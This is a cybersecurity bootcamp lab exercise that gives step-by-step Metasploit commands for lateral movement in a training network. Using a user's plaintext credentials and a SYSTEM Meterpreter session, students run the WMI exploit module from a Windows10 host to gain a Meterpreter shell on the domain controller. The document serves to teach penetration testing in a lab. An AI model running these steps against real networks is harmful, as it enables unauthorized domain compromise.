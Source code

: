 ## Activity File: Lateral Movement 

For this activity, you will use bbanner's credentials to move laterally from Windows10 to WINDC01.

**Note:** This requires a SYSTEM shell on the Windows10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with "tstark's" credentials to obtain one.

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!


### Instructions

1. First, ensure you're working from a SYSTEM level shell on the Windows10 machine, then use the 'exploit/windows/local/wmi' module.

	- `use exploit/windows/local/wmi`
	
2. Next, set the following parameters:
		
	- `set RHOSTS 172.22.117.10`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	and run the payload
	
	- `run -j`

	- ![Screenshot depicts the module settings](../../../Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	- ![Screenshot depicts the successful run and info of the system](../../../Images/wmiexploit.PNG)		
	
You have successfully launched the WMI exploit from our Meterpreter session on Windows10 to WINDC01. From a network traffic perspective, the exploit content occured between Windows10 and WINDC01, instead of Kali to WINDC01. 

---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
